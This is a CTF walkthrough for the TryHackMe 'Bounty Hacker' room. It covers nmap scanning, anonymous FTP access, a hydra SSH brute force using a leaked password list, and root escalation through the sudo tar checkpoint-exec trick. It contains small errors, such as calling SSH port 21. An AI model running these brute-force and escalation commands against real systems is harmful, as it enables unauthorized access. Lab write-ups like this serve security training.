

# Bounty Hacker writeup
[Link to the CTF on TryHackMe](https://tryhackme.com/room/cowboyhacker)

# Information about the CTF
> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 


# How to solve it
Target IP = 10.10.225.88  
Machoine type = Attackbox

## Task 1) Find open ports on the machine
Open terminal and use nmap with the following flags:

`-sT` = TCP Connect Scan  
`-A` = discover the operating system  
`-p-` = Scan all 65,535 ports

```console
berkankutuk@thm:~$ nmap -sT -A -p- 10.10.225.88

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-02 20:00 BST
Nmap scan report for ip-10-10-225-88.eu-west-1.compute.internal (10.10.225.88)
Host is up (0.00052s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.127.249
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:FE:C6:0D:63:87 (Unknown)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (89%), Linux 2.6.32 - 3.1 (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Linux 3.8 (88%), Ubiquiti AirOS 5.5.9 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms ip-10-10-225-88.eu-west-1.compute.internal (10.10.225.88)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.20 seconds
```

We found that port 21, 22 and 80 is open.

## Task 2) Who wrote the task list? 
Lets try to enter some of the ports we got from the last task. 

We can start by port 80(http) which we can enter by going into our browser, and typing the target IP in the search bar. The browser will by default add either the 80 or 443(https) port at the end of your entered IP, so you don't have to specify that.

The website will show this:

Which isn't thaaaat interesting. 

I also tried to see if there were any robots.txt file, and even tried brute-forcing possible directories on the website. But nope, nothing.

So we can try the FTP, which is on port 21.
```console
berkankutuk@thm:~$ ftp 10.10.225.88
Connected to 10.10.225.88.
220 (vsFTPd 3.0.3)
Name (10.10.225.88:root): 
530 This FTP server is anonymous only.
```
Alright, we can see that the FTP server is anonymouse only, so we can enter `anonymous` when asked for the username.
```console
berkankutuk@thm:~$ ftp 10.10.225.88
Connected to 10.10.225.88.
220 (vsFTPd 3.0.3)
Name (10.10.225.88:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.


ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (0.9703 kB/s)

ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (6.9452 kB/s)

ftp> exit
221 Goodbye.
```
Okay, so I got in and downloaded the two on the FTP server to my local computer by using the `get` command.

After exiting the server, I wanted to look inside these files by running them with the `cat` command.
```console
berkankutuk@thm:~$ cat locks.txt
```
This printed a couple of passwords.

Now i tried to see the contents of the task.txt file

```
root@ip-10-10-127-249:~# cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Voilà! We got the name

## Task 3) What service can you bruteforce with the text file found?
Okay, so what do we have?
* A target IP
* A name
* And a **SSH** port (21)

So, the answer should be obvious :p

## Task 4) What is the users password? 
We found a file with a couple of passwords in task 2. We can now try to brute force the SSH login by using these passwords with the help of hydra.

```console
berkankutuk@thm:~$ hydra -l lin -P locks.txt 10.10.225.88 -t 4 ssh -V
...
[22][ssh] host: 10.10.225.88   login: lin   password: <will_be_shown_here>
```

The password will be shown inside the `<will_be_shown_here>`.

## Task 5) user.txt
We should now have the Lin's password which we can use to SSH!

When prompted for the password, simply paste the found password(password inputs are by default hid, so dont punch your monitor if you can't see anything pasted) and hit enter. 
```console
berkankutuk@thm:~$ ssh lin@10.10.225.88
lin@10.10.225.88's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
```

Great, we are in!

Lets take a look at her files
default hid, so dont punch your monitor if you can't see anything pasted) and hit enter. 
```console
lin@bountyhacker:~$ ls
user.txt
```
Ah, we found the file!

Lets see the contents
```console
lin@bountyhacker:~$ cat user.txt
THM{...}
```
Aaand we got the flag.

## Task 6) root.txt
Finally the fun part. Privilige escalation!

Lets try running the `sudo -l` command.

`-l` = this option will list the allowed (and forbidden) commands for the invoking user

```console
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

As we can see in the output, Lin might be able to run the `/bin/tar` as the root. Lets see how we can make use of this to elevate our priviliges. 

For this, i'll search for 'tar' in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) which contains a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

This gave me 3 different options, but the first one should be enough for this one:  
`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Lets try running this with sudo
```console
lin@bountyhacker:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
#
```
So what happened you might ask. Try running the `whoami` command to see who we are.

Root. Right? :D

Fantastic, lets move to the `/root` directory and see its contents
```console
root:~$ cd /root | ls
root.txt
```

We have the root.txt file! Lets open it
```console
root:~$ cat root.txt
THM{...}
```

Congratulations, you now have the root flag.